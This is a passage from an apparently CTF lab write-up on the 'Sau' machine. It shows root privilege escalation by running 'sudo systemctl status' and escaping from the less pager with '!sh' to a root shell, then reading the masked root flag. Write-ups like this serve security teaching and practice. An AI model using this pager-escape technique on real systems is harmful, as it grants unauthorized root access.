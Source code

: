```
             ├─1249 bash
             ├─1281 sudo /usr/bin/systemctl status trail.service
             ├─1282 /usr/bin/systemctl status trail.service
             └─1284 pager

Jan 04 13:33:54 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
Jan 04 15:58:22 sau sudo[1270]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=ro>

```

At the bottom of the terminal there is text and it’s actually hanging. If I enter `!sh` in `less`, that will run `sh`, and drop to a shell:

![image-20240104110236282](https://0xdf.gitlab.io/img/image-20240104110236282.png)

And I can grab the flag:

```
# cd /root
# cat root.txt
ded99f75************************

```






